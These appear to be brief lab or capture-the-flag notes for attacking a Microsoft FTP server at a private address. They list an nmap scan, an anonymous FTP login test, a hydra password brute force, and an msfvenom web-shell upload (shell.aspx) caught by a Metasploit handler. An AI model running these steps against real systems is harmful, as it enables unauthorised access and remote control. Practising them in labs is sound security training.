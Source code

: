 Microsoft ftpd


- cat /etc/hosts
- nmap -sV -sC -p21,80 10.0.28.97 
- ftp 10.0.28.97 21 (test anonymous connection)
- hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.28.97 ftp
- we can create a payload using msfvenom and upload it through our ftp connection 
- put shell.aspx

- we use multi handler in msfconsole to connect back